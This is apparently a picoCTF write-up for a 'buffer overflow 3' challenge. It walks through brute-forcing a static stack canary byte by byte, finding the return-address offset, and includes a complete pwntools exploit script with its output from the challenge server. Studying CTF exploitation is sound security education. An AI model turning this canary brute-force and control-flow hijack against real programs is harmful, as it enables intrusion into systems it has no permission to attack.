



<challenge-info>
<dl>
<div><dt>Solver</dt><dd><a href="https://github.com/jktrn">jktrn</a></dd></div>
<div><dt>Authors</dt><dd>Sanjay C., Palash Oswal</dd></div>
<div><dt>Category</dt><dd>

`Binary Exploitation (pwn)`

</dd></div>
<div><dt>Points</dt><dd>300</dd></div>
<div><dt>Files</dt><dd>

`vuln{:file}` `vuln.c{:file}`

</dd></div>
<div><dt>Remote</dt><dd><code>$ nc saturn.picoctf.net [PORT]</code></dd></div>
<div><dt>Flag</dt><dd>

<challenge-flag>`picoCTF{Stat1C_c4n4r13s_4R3_b4D_[REDACTED]}`</challenge-flag>

</dd></div>
</dl>

Do you think you can bypass the protection and get the flag? It looks like Dr. Oswal added a stack canary to this program to protect against buffer overflows. Connect with it using: `$ nc saturn.picoctf.net [PORT]{:ansi}`

</challenge-info>

:::warning
  Warning: This is an **instance-based** challenge. Port info will be redacted alongside the last eight characters of the flag, as they are dynamic.
:::

```ansi mark={5}
$ checksec vuln
[*] '/home/kali/ctfs/pico22/buffer-overflow-3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### I: Finding the canary

So, Dr. Oswal apparently implemented a [stack canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/), which is just a **dynamic value** appended to binaries during compilation. It helps detect and mitigate stack smashing attacks, and programs can terminate if they detect the canary being overwritten. Yet, `checksec` didn't find a canary. That's a bit suspicious... but let's check out our source code first:

~~~c title="`vuln.c{:file}`"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
~~~

If you look closely, you might be able to see why `checksec` didn't find a stack canary. That's because it's actually a static variable, being read from a `canary.txt{:file}` on the host machine. Canaries that aren't implemented by the compiler are not really canaries!

Knowing that the canary will be four bytes long (defined by `CANARY_SIZE{:c}`) and immediately after the 64-byte buffer (defined by `BUFSIZE{:c}`), we can write a brute forcing script that can determine the correct canary with a simple trick: **by not fully overwriting the canary the entire time!** Check out this segment of source code:

~~~c title="`vuln.c{:file}`" startLineNumber=60
   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(-1);
   }
~~~

This uses `memcmp(){:c}` to determine if the current canary is the same as the global canary. If it's different, then the program will run `exit(-1){:c}`, which is a really weird/invalid exit code and represents "[abnormal termination](https://softwareengineering.stackexchange.com/questions/314563/where-did-exit-1-come-from)":



However, if we theoretically overwrite the canary with a single correct byte, `memcmp(){:c}` won't detect anything!:



### II: Bypassing the canary

We can now start writing our script! My plan is to loop through all printable characters for each canary byte, which can be imported from `string{:c}`. Let's include that in our pwn boilerplate alongside a simple function that allows us to swap between a local and remote instance:

~~~py title="`solve.py{:file}`"
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False)
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process():
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)
~~~

Here's the big part: the `get_canary(){:py}` function. I'll be using [`pwnlib.log{:py}`](https://docs.pwntools.com/en/stable/log.html) for some spicy status messages. My general process for the brute force is visualized here if you're having trouble:



I'll be initially sending 64 + 1 bytes, and slowly appending the correct canary to the end of my payload until the loop has completed four times:

~~~py title="`solve.py{:file}`" collapse="1-14"
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False)
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process():
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)

def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet:
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output:
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
    logger.success(f'"{canary.decode()}"')
    return canary
~~~

The final thing we need to figure out is the offset between the canary to ``$eip{:ansi}``, the pointer register, which we will repopulate with the address of `win(){:c}`. We can do this by appending a cyclic pattern to the end of our current payload (64 + 4 canary bytes) and reading the Corefile's crash location, which will be the ``$eip{:ansi}``:

:::note
  My canary is `abcd` because I put that in my `canary.txt{:file}`. It will be different on the remote server!
:::

```ansi mark={21}
$ python3 -q
>>> from pwn import *
>>> p = process('./vuln')
[x] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-3/vuln'
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-3/vuln': pid 1493
>>> payload = cyclic(64) + b'abcd' + cyclic(128)
>>> p.sendline(b'196')
>>> p.sendline(payload)
>>> p.wait()
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-3/vuln' stopped with exit code -11 (SIGSEGV) (pid 1493)
>>> core = Corefile('./core')
[x] Parsing corefile...
[*] '/home/kali/ctfs/pico22/buffer-overflow-3/core'
    Arch:      i386-32-little
    EIP:       0x61616165
    ESP:       0xffa06160
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-3/vuln' (0x8048000)
    Fault:     0x61616165
[+] Parsing corefile...: Done
>>> cyclic_find(0x61616165)
16
```

The offset is 16, so we'll have to append that amount of bytes to the payload followed by the address of `win(){:c}`. I'll combine all sections of our payload together with `flat(){:py}`, and then hopefully read the flag from the output:

~~~py title="`solve.py{:file}`" collapse="1-31"
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False)
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process():
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)

def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet:
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output:
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
    logger.success(f'"{canary.decode()}"')
    return canary

canary = get_canary()
p = new_process()
payload = flat([{offset: canary}, {16: elf.symbols.win}])
p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendlineafter(b"> ", payload)
log.success(p.recvall().decode("ISO-8859-1"))
~~~

Here is my final script with all of its components put together:

~~~py title="`solve.py{:file}`"
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False)
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process():
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)

def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet:
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output:
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
    logger.success(f'"{canary.decode()}"')
    return canary

canary = get_canary()
p = new_process()
payload = flat([{offset: canary}, {16: elf.symbols.win}])
p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendlineafter(b"> ", payload)
log.success(p.recvall().decode("ISO-8859-1"))
~~~

Running the script:

```ansi mark={9}
$ python3 buffer-overflow-3.py
[+] Finding canary: 'BiRd'
[+] Opening connection to saturn.picoctf.net on port 57427: Done
[+] Receiving all data: Done (162B)
[*] Closed connection to saturn.picoctf.net port 57427
[+] aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaBiRdraaasaaataa-
auaaa6^H
    Ok... Now Where's the Flag?
    picoCTF{Stat1C_c4n4r13s_4R3_b4D_[REDACTED]}
```

We've successfully performed a brute force on a vulnerable static canary!
